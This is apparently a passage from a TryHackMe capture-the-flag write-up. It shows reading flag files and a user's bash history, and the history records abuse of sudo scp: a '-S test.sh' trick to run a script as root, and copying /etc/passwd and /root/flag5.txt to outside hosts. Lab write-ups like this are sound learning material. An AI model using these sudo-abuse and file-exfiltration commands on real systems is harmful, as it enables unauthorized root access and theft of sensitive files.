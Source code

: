 ## Flag 1

We've found flag 1, let's cat it and register on the thm site:

```text
dennis@ip-10-10-9-16:~$ cat flag1.txt
Congrats on finding the first flag.. But what about the rest? :O
<<HIDDEN>>
```

There's also a file called test.sh, let's look at that:

```text
dennis@ip-10-10-9-16:~$ cat test.sh
#!/bin/bash
cat /root/flag5.txt
```

We have the location of flag 5, but can't get to that until we are root.

## Flag 3

Let's keep looking, another file worth checking is bash_history in case it hasn't been cleared:

```text
dennis@ip-10-10-9-16:~$ cat .bash_history 
Flag3:<<HIDDEN>>
sudo -l
sudo scp
scp
sudo find
ls
vim test.sh
ls
cd ~
ls
vim test.sh
ls
ls -la
sudo scp -S test.sh
sudo scp /etc/password
sudo scp /etc/password localhost@10.8.0.6@~/
sudo scp /etc/passwd localhost@10.8.0.6@~/
sudo scp /etc/passwd dennis@10.0.0.59@~/
sudo scp /etc/passwd dennis@10.0.0.59:~/
sudo scp /etc/passwd dennis@10.0.0.59:/home/dennis
sudo scp /etc/passwd ben@10.8.0.6:/
sudo scp /root/flag5.txt ben@10.8.0.6:/
sudo scp /root/flag5.txt ben@10.8.0.6:~/
sudo scp /root/flag5.txt ben@10.8.0.6:~/ -v
sudo scp -v /root/flag5.txt ben@10.8.0.6:~/
sudo scp -v /root/flag5.txt ben@localhost:~/
sudo scp -v /root/flag5.txt dennis@localhost:~/
sudo scp -v /root/flag5.txt dennis@10.0.0.59:~/
sudo scp -v /root/flag5.txt ben@10.8.0.6:~/
ping 10.8.0.6
ping 10.8.0.7
sudo scp /root/flag5.txt ben@10.8.0.6:~/
sudo scp /root/flag5.txt ben@88.104.10.206:~/
sudo scp -v /root/flag5.txt ben@88.104.10.206:~/
sudo scp /root/flag5.txt ben@10.8.0.6:~/
ls
vim ~/.bash_history
```
